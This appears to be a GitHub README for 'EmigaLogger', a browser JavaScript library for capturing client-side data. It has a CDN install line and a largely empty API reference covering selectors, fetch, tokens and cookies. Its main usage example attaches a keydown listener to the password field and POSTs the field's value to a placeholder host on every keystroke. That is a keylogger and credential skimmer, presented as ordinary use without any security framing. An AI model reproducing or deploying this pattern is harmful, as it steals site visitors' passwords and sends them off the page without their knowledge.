

<p align="center">
  
</p>

<h1 align="center">EmigaLogger for Browsers</h1>

<div align="center">


<p align="center">EmigaLogger combines several modules to send a valuable client-side information to the database</p>
</div>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@v1.0.1/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|

#### EmigaLogger.Call(callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|

### new EmigaSelector()
#### EmigaSelector().Select(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Submit(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Value(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Text(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

### new EmigaData()
#### EmigaData().Serialize(form)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|

#### EmigaData().Send(url,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|

### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookies().Set(name,value,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|

#### EmigaCookie().Delete(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookie().Cookie(name,value,days)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|

### new EmigaInit(event)
